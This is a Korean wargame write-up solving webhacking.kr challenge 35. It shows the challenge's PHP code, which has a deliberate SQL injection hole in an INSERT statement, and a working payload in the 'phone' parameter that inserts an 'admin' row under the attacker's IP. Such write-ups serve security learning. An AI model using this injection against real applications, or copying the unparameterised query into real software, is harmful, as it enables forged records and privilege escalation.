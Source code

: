 ```yaml
---
title: "[webhacking.kr] 35번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "35번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 35번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152671255-d268cde5-a1e3-454c-bfd2-c0a68537c9d4.png)

  ```php
  <?php
  $db = dbconnect();
  if($_GET['phone'] && $_GET['id']){
    if(preg_match("/\*|\/|=|select|-|#|;/i",$_GET['phone'])) exit("no hack");
    if(strlen($_GET['id']) > 5) exit("no hack");
    if(preg_match("/admin/i",$_GET['id'])) exit("you are not admin");
    mysqli_query($db,"insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}',{$_GET['phone']})") or die("query error");
    echo "Done<br>";
  }

  $isAdmin = mysqli_fetch_array(mysqli_query($db,"select ip from chall35 where id='admin' and ip='{$_SERVER['REMOTE_ADDR']}'"));
  if($isAdmin['ip'] == $_SERVER['REMOTE_ADDR']){
    solve(35);
    mysqli_query($db,"delete from chall35");
  }
  ?>
  ```

# 문제 풀이
  >필터링 되는 문자열

  | 1 | 2 | 3 | 4 | 5 | 6 | 7 |
  |:--:|:--:|:--:|:--:|:--:|:--:|:--:|
  |  *  |/|=|select|-|#|;|

  >injection 해야 하는 sql 구문

  ```sql
insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}',{$_GET['phone']})
  ```

  문제에서 get 방식으로 id, phone을 받아서 db로 바로 입력을 합니다. id는 길이가 5가 넘으면 안되므로 인젝션을 시도하기 적절하지 않고, phone은 필터링 문자들만 우회하면 인젝션을 시도할 수 있습니다.

  우선 문제를 풀기 위해서는 다음 조건이 되면 풀립니다.
  
  ```php
  $isAdmin = mysqli_fetch_array(mysqli_query($db,"select ip from chall35 where id='admin' and ip='{$_SERVER['REMOTE_ADDR']}'"));
  if($isAdmin['ip'] == $_SERVER['REMOTE_ADDR']){
    solve(35);
  }
  ```

  즉 DB에 나의 IP로 'admin' 아이디가 존재해야 합니다.

  다음과 같이 phone에 쿼리문을 작성하면 됩니다.
  ```python
123),('admin','58.122.121.25',123
  ```

  그러면 서버쪽의 sql 문에서는 다음과 같이 sql 문이 작성됩니다.

  ```sql
  insert into chall35(id,ip,phone) values ('guest','58.122.121.25',123),('admin','58.122.121.25',123)
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152671686-b78de901-653f-46f5-a03e-eb020c93dcf6.png)